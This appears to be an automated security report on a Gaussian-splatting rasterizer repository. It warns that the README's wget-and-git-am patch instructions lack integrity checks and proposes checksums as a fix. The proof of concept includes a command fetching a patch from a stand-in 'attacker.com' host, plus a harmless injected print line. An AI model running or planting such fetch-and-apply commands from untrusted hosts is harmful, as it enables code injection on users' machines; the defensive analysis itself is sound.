 - Vulnerability Name: Malicious Patch Injection
- Description:
    - The project README provides instructions on how to integrate the Slang.D rasterizer with existing 3D Gaussian Splatting implementations (Inria and gsplat) by downloading and applying patch files.
    - Users are instructed to use `wget` to download patch files directly from the repository via raw GitHub URLs.
    - An attacker could replace the legitimate patch files hosted in the repository with malicious patch files.
    - If a user follows the instructions and downloads and applies a malicious patch, the `git am` command will apply the patch, injecting potentially malicious code into the user's local 3DGS codebase.
    - This injected code could be executed when the user runs their 3DGS training or rendering scripts.
- Impact:
    - Code injection into the user's 3D Gaussian Splatting implementation.
    - Arbitrary code execution on the user's machine when they run the patched 3DGS software.
    - Potential for data theft, system compromise, or other malicious activities depending on the attacker's payload within the malicious patch.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - None. The project does not implement any mechanism to verify the integrity or authenticity of the patch files. It relies on users implicitly trusting the provided URLs and the GitHub platform.
- Missing Mitigations:
    - Patch Integrity Verification: Implement a mechanism to ensure the integrity of the patch files. This could involve:
        - Providing checksums (e.g., SHA256 hashes) of the patch files in the README, allowing users to manually verify the downloaded patches before applying them.
        - Digitally signing the patch files, although this might be more complex to implement and manage in this context.
    - User Warning: Add a clear warning in the README.md file advising users about the security risks of applying patches from any source without proper verification. Recommend users to verify the integrity of downloaded patches before applying them.
- Preconditions:
    - The user must follow the integration instructions provided in the README.md file.
    - The attacker must be able to replace the legitimate patch file on the repository (or convince users to download a malicious patch from a different source).
- Source Code Analysis:
    - **/code/README.md**:
        - The "Using it with popular 3DGS optimization libraries" section provides instructions to download patch files using `wget` from raw GitHub URLs:
            ```bash
            wget https://github.com/grgkopanas/slang-gaussian-rasterization/raw/main/slang_gaussian_rasterization/api/patches/3dgs_inria.patch
            git am 3dgs_inria.patch
            ```
        - This method of downloading and applying patches is inherently vulnerable if the patch source is compromised, as `git am` will apply any patch provided without verification.
    - There are no other files in the project that directly mitigate this vulnerability. The vulnerability stems from the integration instructions in the README and the lack of patch integrity checks.
- Security Test Case:
    1. **Attacker creates a malicious patch:**
        - Create a file named `malicious_patch.patch` with the following content. This patch is designed to add a print statement to the `train.py` file of the Inria 3DGS repository as a proof of concept for code injection.
        ```patch
        --- a/train.py
        +++ b/train.py
        @@ -1,2 +1,4 @@
         # malicous patch injected
+        print("Malicious patch has been injected and executed!")
         import os, sys, glob, argparse
         import numpy as np
        ```
    2. **Attacker hosts the malicious patch:**
        -  For testing purposes, the attacker can host this `malicious_patch.patch` file on a local web server or a publicly accessible file hosting service.  Assume the malicious patch is accessible at `http://attacker.com/malicious_patch.patch`.
    3. **Victim modifies README instructions (simulated attack):**
        -  The victim, intending to follow the integration instructions, is tricked into using a modified instruction.  Assume the victim replaces the legitimate `wget` command in the README instructions with the following command, pointing to the attacker's malicious patch:
            ```bash
            wget http://attacker.com/malicious_patch.patch -O 3dgs_inria.patch
            git am 3dgs_inria.patch
            ```
    4. **Victim executes modified instructions:**
        - The victim executes the modified commands in their terminal within the Inria 3DGS repository directory, as instructed in the (modified) README.
    5. **Verify code injection:**
        - The victim checks the `train.py` file in their Inria 3DGS repository. They will find the line `print("Malicious patch has been injected and executed!")` added at the beginning of the file, confirming the successful code injection.
    6. **Victim runs the patched code:**
        - The victim executes the `train.py` script as normally instructed by the Inria 3DGS repository documentation.
        - When `train.py` is executed, the message "Malicious patch has been injected and executed!" will be printed to the console *before* the normal execution of the `train.py` script, demonstrating that the injected code is indeed executed.

This test case demonstrates how a malicious patch can be injected and executed by a user following modified integration instructions, highlighting the vulnerability.